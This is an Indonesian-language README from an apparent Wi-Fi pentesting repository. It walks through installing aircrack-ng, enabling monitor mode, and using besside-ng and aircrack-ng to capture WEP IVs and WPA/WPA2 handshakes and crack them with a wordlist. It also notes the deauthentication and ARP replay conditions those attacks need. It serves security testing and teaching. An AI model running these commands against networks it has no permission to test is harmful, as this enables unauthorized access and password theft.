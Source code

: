 # Besside-NG

![Besside-NG](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/besside-ng/img/besside-ng.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre2-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils expect
   git clone https://github.com/aircrack-ng/aircrack-ng
   cd aircrack-ng
   autoreconf -i
   ./configure --with-experimental
   make
   sudo make install
   sudo ldconfig
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```

## Penggunaan

**1. Scan Wi-Fi:**

1. Scan Semua Jaringan (Tanpa Filter):

   ```
   sudo airodump-ng [interface]
   ```
2. Filter berdasarkan Enkripsi:
   - WEP:

      ```
      sudo airodump-ng --encrypt WEP [interface]
      ```
   - WPA/WPA2-PSK

      ```
      sudo airodump-ng --encrypt WPA,WPA2 [interface]
      ```

**2. Capture Handshake/IVs:**

1. WEP:

   ```
   sudo besside-ng -b [bssid] -c [channel] -vv [interface]
   ```
2. WPA/WPA2-PSK:

   ```
   sudo besside-ng -b [bssid] -c [channel] -W -vv [interface]
   ```
        
**3. Crack Handshake/IVs:**

1. WEP:

   ```
   aircrack-ng -a 1 -b [bssid] [file_capture]
   ```
2. WPA/WPA2-PSK:

   ```
   aircrack-ng -a 2 -b [bssid] [file_capture] -w [wordlist]
   ```

## Catatan Penting

1. WEP:
   - Agar serangan ARP Replay berhasil, minimal harus ada satu klien yang sedang terhubung ke Access Point (AP).
   - Tanpa adanya klien yang terhubung, tidak ada traffic ARP yang dapat ditangkap dan di-replay, sehingga serangan kemungkinan besar akan gagal.
2. WPA/WPA2-PSK:
   - Untuk melakukan serangan Deauthentication dan menangkap 4-way handshake, diperlukan minimal satu klien yang terhubung ke jaringan.
   - Jika tidak ada klien yang terhubung, tidak ada target yang dapat di-deauth, sehingga handshake tidak akan berhasil didapatkan.

## Video Demonstrasi

[https://youtu.be/nDBMile1Fe4?si=NCw7Y36FEvYdBDvb](https://youtu.be/nDBMile1Fe4?si=NCw7Y36FEvYdBDvb)
